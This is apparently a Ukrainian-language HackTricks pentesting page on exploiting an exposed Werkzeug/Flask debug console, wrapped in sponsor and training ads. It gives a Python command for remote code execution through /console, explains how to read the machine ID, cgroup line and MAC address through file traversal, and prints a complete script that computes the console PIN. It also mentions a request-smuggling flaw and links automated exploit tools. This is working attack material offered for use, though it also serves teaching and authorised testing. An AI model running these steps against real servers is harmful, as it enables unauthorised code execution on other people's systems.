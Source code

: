 # Werkzeug / Flask Debug

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Отримайте перспективу хакера щодо ваших веб-додатків, мережі та хмари**

**Знайдіть і повідомте про критичні, експлуатовані вразливості з реальним бізнес-імпактом.** Використовуйте наші 20+ спеціальних інструментів для картографування атакуючої поверхні, знаходження проблем безпеки, які дозволяють вам підвищити привілеї, і використовуйте автоматизовані експлойти для збору важливих доказів, перетворюючи вашу важку працю на переконливі звіти.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Console RCE

Якщо налагодження активне, ви можете спробувати отримати доступ до `/console` і отримати RCE.
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

В інтернеті також є кілька експлойтів, таких як [цей](https://github.com/its-arun/Werkzeug-Debug-RCE) або один у metasploit.

## Захищений PIN - Перехід по шляху

В деяких випадках **`/console`** кінцева точка буде захищена PIN-кодом. Якщо у вас є **вразливість до переходу по файлах**, ви можете витягти всю необхідну інформацію для генерації цього PIN-коду.

### Експлойт PIN-коду консолі Werkzeug

Примусьте сторінку помилки налагодження в додатку, щоб побачити це:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
Повідомлення щодо сценарію "консоль заблокована" з'являється при спробі доступу до інтерфейсу налагодження Werkzeug, що вказує на необхідність введення PIN-коду для розблокування консолі. Пропонується експлуатувати PIN-код консолі, аналізуючи алгоритм генерації PIN-коду у файлі ініціалізації налагодження Werkzeug (`__init__.py`). Механізм генерації PIN-коду можна вивчити з [**репозиторію вихідного коду Werkzeug**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py), хоча рекомендується отримати фактичний код сервера через вразливість обходу файлів через потенційні розбіжності версій.

Для експлуатації PIN-коду консолі потрібні два набори змінних: `probably_public_bits` та `private_bits`:

#### **`probably_public_bits`**

* **`username`**: Відноситься до користувача, який ініціював сесію Flask.
* **`modname`**: Зазвичай позначається як `flask.app`.
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: Зазвичай розв'язується в **Flask**.
* **`getattr(mod, '__file__', None)`**: Представляє повний шлях до `app.py` у каталозі Flask (наприклад, `/usr/local/lib/python3.5/dist-packages/flask/app.py`). Якщо `app.py` не застосовується, **спробуйте `app.pyc`**.

#### **`private_bits`**

* **`uuid.getnode()`**: Отримує MAC-адресу поточної машини, з `str(uuid.getnode())` перетворюючи її в десятковий формат.
* Щоб **визначити MAC-адресу сервера**, потрібно ідентифікувати активний мережевий інтерфейс, що використовується додатком (наприклад, `ens3`). У випадках невизначеності, **використовуйте `/proc/net/arp`** для знаходження ID пристрою, потім **витягніть MAC-адресу** з **`/sys/class/net/<device id>/address`**.
* Перетворення шістнадцяткової MAC-адреси в десяткову можна виконати, як показано нижче:

```python
# Приклад MAC-адреси: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`**: Об'єднує дані з `/etc/machine-id` або `/proc/sys/kernel/random/boot_id` з першим рядком `/proc/self/cgroup` після останнього слешу (`/`).

<details>

<summary>Код для `get_machine_id()`</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

Після збору всіх необхідних даних, скрипт експлуатації може бути виконаний для генерації PIN-коду консолі Werkzeug:

Після збору всіх необхідних даних, скрипт експлуатації може бути виконаний для генерації PIN-коду консолі Werkzeug. Скрипт використовує зібрані `probably_public_bits` та `private_bits` для створення хешу, який потім підлягає подальшій обробці для отримання фінального PIN-коду. Нижче наведено код Python для виконання цього процесу:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
Цей скрипт генерує PIN, хешуючи конкатеновані біти, додаючи специфічні сіль (`cookiesalt` та `pinsalt`) і форматуючи вихідні дані. Важливо зазначити, що фактичні значення для `probably_public_bits` та `private_bits` потрібно точно отримати з цільової системи, щоб забезпечити відповідність згенерованого PIN з очікуваним у консолі Werkzeug.

{% hint style="success" %}
Якщо ви використовуєте **стару версію** Werkzeug, спробуйте змінити **алгоритм хешування на md5** замість sha1.
{% endhint %}

## Unicode символи Werkzeug

Як було помічено в [**цьому питанні**](https://github.com/pallets/werkzeug/issues/2833), Werkzeug не закриває запит з Unicode символами в заголовках. І, як пояснено в [**цьому звіті**](https://mizu.re/post/twisty-python), це може викликати вразливість CL.0 Request Smuggling.

Це пов'язано з тим, що в Werkzeug можливо відправити деякі **Unicode** символи, і це призведе до **зламу** сервера. Однак, якщо HTTP з'єднання було створено з заголовком **`Connection: keep-alive`**, тіло запиту не буде прочитано, і з'єднання залишиться відкритим, тому **тіло** запиту буде розглядатися як **наступний HTTP запит**.

## Автоматизоване використання

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## Посилання

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Отримайте перспективу хакера на ваші веб-додатки, мережу та хмару**

**Знайдіть і повідомте про критичні, експлуатовані вразливості з реальним бізнес-імпактом.** Використовуйте наші 20+ кастомних інструментів для картографування атакуючої поверхні, знаходження проблем безпеки, які дозволяють вам підвищити привілеї, і використовуйте автоматизовані експлойти для збору важливих доказів, перетворюючи вашу важку працю на переконливі звіти.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Вчіться та практикуйте Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вчіться та практикуйте Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
